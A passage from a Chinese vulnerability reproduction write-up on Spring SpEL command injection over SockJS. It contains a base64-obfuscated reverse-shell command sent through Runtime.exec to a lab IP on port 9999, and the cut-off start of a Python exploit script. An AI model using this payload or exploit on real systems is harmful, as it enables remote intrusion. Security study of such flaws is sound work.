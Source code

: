 命令执行成功，文件`awesome_poc`被成功创建：

![image-20220301151446972](images/202203011514030.png)

尝试反弹shell，构造命令：

```
T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
```

监听9999端口，成功接收反弹shell：

![image-20220301151607291](images/202203011516380.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

```